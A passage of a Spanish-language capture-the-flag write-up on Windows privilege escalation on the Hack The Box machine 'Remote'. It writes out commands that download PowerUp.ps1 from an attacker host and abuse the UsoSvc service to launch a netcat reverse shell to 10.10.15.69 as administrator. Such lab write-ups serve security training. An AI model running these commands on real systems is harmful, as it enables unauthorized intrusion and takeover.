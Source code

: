 ```sh
$ python -m SimpleHTTPServer
```

- Windows:

Podriamos correr el exploit para pasarnos el **PowerUp.ps1** pero viendo el video aprendi que no era necesario, podemos hacerlo desde cmd simplemente moviendonos a la carpeta donde queremos el archivo y abriendo una sesión powershell

```sh
> powershell
PS > Invoke-WebRequest http://10.10.15.69:<puerto_que_levanta_python>/PowerUp.ps1 -o PowerUp.ps1 # -o de output, le ponemos el nombre de como queremos que quede el archivo
PS > Invoke-Module ./PowerUp.ps1
PS > Invoke-AllChecks | Out-File -Encoding ASCII checks.txt # Guardamos la ejecución del modulo en un archivo llamado checks.txt
```

Listo, validando el contenido de `checks.txt` tenemos:

Nuestro servicio **UsoSvc**

![pscheckstxt1](https://github.com/jntxJ/Writeups/blob/master/HTB/Remote/images/pscheckstxt1.png) 

![pscheckstxt2](https://github.com/jntxJ/Writeups/blob/master/HTB/Remote/images/pscheckstxt2.png) 

Revisando este archivo no hay algo que resalte.

Pues ya solo nos queda ejecutar la instruccion que el propio **checks** nos brinda: `Invoke-ServiceAbuse -ServiceName 'UsoSvc'` pasandole el comando que queremos ejecutar. 

```sh
PS > Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command "c:\Windows\TEMP\\nc.exe 10.10.15.69 443 -e cmd.exe"
```

![psusosvcexp](https://github.com/jntxJ/Writeups/blob/master/HTB/Remote/images/psusosvcexp.png) 

Perfecto, tenemos una reverse shell como usuario administrador

Las flags serían estas:

![psechoflags](https://github.com/jntxJ/Writeups/blob/master/HTB/Remote/images/psechoflags.png) 

Lo que vi con este metodo es que la conexion se pierde a los pocos segundos (ya te imaginas como consegui las flags :s) Ni siquiera sabria como buscar en internet si es un problema, un comando que necesito de más o incluso que la propia maquina es la que pueda estar terminando la peticion.

### Metodo TV (TeamViewer)

Bueno como comente arriba, en la enumeración se ve el directorio y sus componentes dentro de `Program Files (x86)`

![enumtv](https://github.com/jntxJ/Writeups/blob/master/HTB/Remote/images/enumtv.png) 
...
